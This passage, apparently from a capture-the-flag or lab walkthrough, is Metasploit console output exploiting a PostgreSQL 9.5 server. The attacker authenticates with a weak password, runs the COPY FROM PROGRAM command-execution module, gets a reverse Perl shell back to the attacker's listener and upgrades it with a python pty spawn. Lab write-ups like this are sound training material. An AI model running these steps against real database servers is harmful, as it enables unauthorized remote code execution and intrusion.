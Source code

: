 ```bash
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output
```

```bash
msf6 auxiliary(admin/postgres/postgres_readfile) > use 6
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > options

Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   DATABASE           template1        yes       The database to authenticate against
   DUMP_TABLE_OUTPUT  false            no        select payload command output from table (For Debugging)
   PASSWORD           postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              5432             yes       The target port (TCP)
   TABLENAME          UnLJfTHIN9       yes       A table name that does not exist (To avoid deletion)
   USERNAME           postgres         yes       The username to authenticate as

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 10.10.244.60
RHOSTS => 10.10.244.60
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST 10.18.23.186
LHOST => 10.18.23.186
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run

[*] Started reverse TCP handler on 10.18.23.186:4444 
[*] 10.10.244.60:5432 - 10.10.244.60:5432 - PostgreSQL 9.5.21 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit
[*] 10.10.244.60:5432 - Exploiting...
[+] 10.10.244.60:5432 - 10.10.244.60:5432 - UnLJfTHIN9 dropped successfully
[+] 10.10.244.60:5432 - 10.10.244.60:5432 - UnLJfTHIN9 created successfully
[+] 10.10.244.60:5432 - 10.10.244.60:5432 - UnLJfTHIN9 copied successfully(valid syntax/command)
[+] 10.10.244.60:5432 - 10.10.244.60:5432 - UnLJfTHIN9 dropped successfully(Cleaned)
[*] 10.10.244.60:5432 - Exploit Succeeded

id
uid=109(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
python3 -c "import pty;pty.spawn('/bin/bash')"
[*] Command shell session 2 opened (10.18.23.186:4444 -> 10.10.244.60:60178 ) at 2022-04-21 01:43:45 -0400

postgres@ubuntu:/var/lib/postgresql/9.5/main$ ls
ls
```